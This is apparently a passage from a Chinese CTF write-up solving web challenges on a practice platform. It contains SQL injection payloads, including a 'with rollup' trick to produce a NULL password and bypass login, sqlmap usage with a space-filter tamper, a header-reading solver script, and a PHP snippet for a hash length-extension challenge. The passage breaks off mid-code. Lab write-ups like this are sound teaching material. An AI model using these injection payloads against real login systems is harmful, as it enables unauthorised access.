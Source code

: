 可以看到过滤了很多注入关键字以及数组绕过等姿势，随后根据用户输入的 `uname` 去查询数据库中的 `pwd`，然后和用户 POST 的 `pwd` 比较，一致则通过。注意到这里也是一个弱等号，因此可以考虑空值绕过。还要注意查询输出的结果必须只有一行。

先查看表里一共有几行数据：

```
1' or 1 limit 1 offset 0#
1' or 1 limit 1 offset 1#
1' or 1 limit 1 offset 2#
```

前两条都返回 ` 浜﹀彲璧涜墖锛�`，而第三条返回 ` 涓€棰楄禌鑹囷紒 `（这里的乱码是因为编码问题，懒得转换了），因此表里一共只有两条数据。那么怎么插入一条新的数据，使得其中的 `pwd` 为 `NULL` 呢？

我们可以利用 `rollup` 统计功能实现。构造 payload：

```
1' or 1 group by pwd with rollup limit 1 offset 2#
```

注意这里的顺序。先 `group by pwd with rollup` 插入一条 `pwd` 为 `NULL` 的统计数据，然后 `limit 1 offset 2` 取最新的这一条数据。此时，由于我们 POST 的 `pwd` 也是空，因此通过验证。

## 简单的 sql 注入之 3/2/1

第三题 sqlmap 报错注入。

第二题还是 sqlmap，不过由于过滤空格（和右括号）需要 `--tamper=space2comment`。

不知道为什么第一题似乎和第二题一样。

## 天下武功唯快不破

```python
import requests
import base64

url = 'http://ctf5.shiyanbar.com/web/10/10.php'
response = requests.get(url)

flag = base64.b64decode(response.headers['FLAG']).decode().split(':')[1]

data = {'key': flag}
res = requests.post(url=url, data=data)
print(res.text)
```

## 让我进去

抓包发现 cookie 中存在 `source=0`，改为 1 即可查看源码：

```php
$flag = "XXXXXXXXXXXXXXXXXXXXXXX";
$secret = "XXXXXXXXXXXXXXX"; // This secret is 15 characters long for security!

$username = $_POST["username"];
$password = $_POST["password"];

if (!empty($_COOKIE["getmein"])) {
    if (urldecode($username) === "admin" && urldecode($password) != "admin") {
        if ($COOKIE["getmein"] === md5($secret . urldecode($username . $password))) {
            echo "Congratulations! You are a registered user.\n";
            die ("The flag is". $flag);
        }
        else {
            die ("Your cookies don't match up! STOP HACKING THIS SITE.");
        }
    }
```